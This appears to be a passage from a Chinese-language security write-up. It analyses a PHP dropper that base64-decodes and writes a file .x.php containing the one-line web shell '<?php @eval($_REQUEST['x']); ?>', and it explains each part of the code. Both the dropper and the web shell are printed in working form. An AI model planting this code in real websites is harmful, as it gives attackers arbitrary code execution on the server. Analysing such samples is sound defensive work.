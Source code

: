 ​![在这里插入图片描述](assets/net-img-fbe2a7e42d1c45ca8107666d6efe76dc-20240707120921-nsljbwd.png)​

得到；

	<?php @file_put_contents('.x.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg=='));?>

**简单分析一下；**

* ​ **​`@`​** ​ **: 错误控制操作符，抑制错误信息显示。**
* ​**​`file_put_contents`​**​ **: PHP函数，用于将内容写入文件。在这里，它创建了一个名为**  **​`.x.php`​**​ **的文件。**
* ​**​`base64_decode`​**​ **: 将 Base64 编码的字符串解码。**
* ​**​`PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg==`​** ​ **: Base64 编码的字符串，解码后为**  **​`<?php @eval($_REQUEST['x']); ?>`​** ​ **。**

**解码之后得到；**

	<?php @eval($_REQUEST['x']); ?>

**很明显这是一个典型的一句话木马，它允许攻击者通过 HTTP 请求中的** **​`x`​**​ **参数执行任意 PHP 代码。**
